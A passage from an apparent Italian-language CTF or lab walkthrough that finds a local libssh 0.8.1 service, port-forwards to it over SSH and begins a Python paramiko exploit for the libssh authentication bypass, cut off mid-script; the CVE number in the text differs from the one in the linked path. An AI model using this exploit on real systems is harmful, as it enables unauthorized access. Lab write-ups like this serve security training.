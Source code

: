 Verifichiamo i servizi in listening sulla macchina e notiamo un servizio sulla porta tcp/2222 in listening su 127.0.0.1 che risulta essere ```SSH-2.0-libssh_0.8.1```
```
merlos@27may:~$ netstat -tupnl 
[...]
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:2222          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:37493         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
[...]
merlos@27may:~$ telnet 127.0.0.1 2222
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
SSH-2.0-libssh_0.8.1
^]
telnet> quit
Connection closed.
```
Una rapida ricerca sulle vulnerabilità della versione evidenzia una authentication bypass (CVE-2018-10993 libSSH authentication bypass) per cui sono disponibili vari exploit. Noi useremo [questo](https://github.com/vulhub/vulhub/tree/master/libssh/CVE-2018-10933)

Facciamo port forwarding via SSH per sfruttare localmente la vulnerabilità trovata sul servizio ssh remoto ```127.0.0.1:2222```
```
$ ssh -L 2222:localhost:2222 merlos@192.168.56.102 -i merlos.privkey
[...]
merlos@27may:~$
```
Installiamo le librerie necessarie (Ubuntu), creiamo il file ```exploit.py``` ed eseguiamolo localmente usando il port forwarding verso il nostro target
```
$ sudo apt-get install python-paramiko
$ cat <<EXPLOIT > exploit.py
#!/usr/bin/env python3
import sys
import paramiko
import socket
import logging

logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
bufsize = 2048


def execute(hostname, port, command):
    sock = socket.socket()
    try:
        sock.connect((hostname, int(port)))

        message = paramiko.message.Message()
        transport = paramiko.transport.Transport(sock)
        transport.start_client()

        message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
        transport._send_message(message)

```